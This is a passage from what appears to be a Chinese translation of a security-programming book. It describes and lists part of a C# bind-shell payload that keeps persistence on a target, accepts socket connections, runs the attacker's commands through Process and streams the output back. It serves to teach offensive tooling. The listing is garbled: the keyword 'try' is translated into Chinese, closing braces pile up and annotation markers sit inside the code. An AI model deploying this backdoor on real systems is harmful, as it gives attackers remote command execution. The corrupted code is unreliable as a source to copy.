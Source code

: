 为了在我们与负载断开连接后在目标上保持持久性，我们在技术上是无限的 while 循环 ➊ 内实例化一个新的 NetworkStream 类，方法是将 listener.AcceptSocket() 返回的 Socket ➋ 传递给 NetworkStream 构造函数 ➌。然后，为了高效地读取 NetworkStream，在 using 语句的上下文中，我们实例化一个新的 StreamReader 类 ➍，并将网络流传递给 StreamReader 构造函数。一旦我们设置好 StreamReader，就使用第二个无限 while 循环 ➎ 来继续读取命令，直到攻击者发送空行给负载为止。

为了解析并执行来自流的命令并将输出返回给连接的攻击者，我们在内部 while 循环中声明一系列字符串变量，并在字符串中按空格拆分原始输入 ➏。接下来，我们从拆分结果中取出第一个元素，并将其作为要运行的命令，使用 LINQ 选择数组中的第一个元素 ➐。然后，我们再次使用 LINQ 将拆分数组中的所有字符串（从第一个元素开始）连接起来 ➑，并将生成的字符串（以空格分隔的参数）赋值给 arg 变量。

从流中执行命令

现在我们可以设置我们的 Process 和 ProcessStartInfo 类来运行命令及其参数（如果有的话），并捕获输出，如 Listing 4-8 所示。

> 尝试
> 
> {
> 
> Process prc = new ➊Process();
> 
> prc.StartInfo = new ProcessStartInfo();
> 
> prc.StartInfo.➋FileName = filename;
> 
> prc.StartInfo.➌Arguments = arg;
> 
> prc.StartInfo.UseShellExecute = false;
> 
> prc.StartInfo.RedirectStandardOutput = true;
> 
> prc.➍Start();
> 
> prc.StandardOutput.BaseStream.➎CopyTo(stream);
> 
> prc.WaitForExit();
> 
> }
> 
> catch
> 
> {
> 
> string error = "运行命令时出错 " + cmd + "\n";
> 
> byte[] errorBytes = ➏Encoding.ASCII.GetBytes(error);
> 
> stream.➐Write(errorBytes, 0, errorBytes.Length);
> 
> }
> 
> }
> 
> }
> 
> }
> 
> }
> 
> }
> 
> }
> 
> }
> 
> }
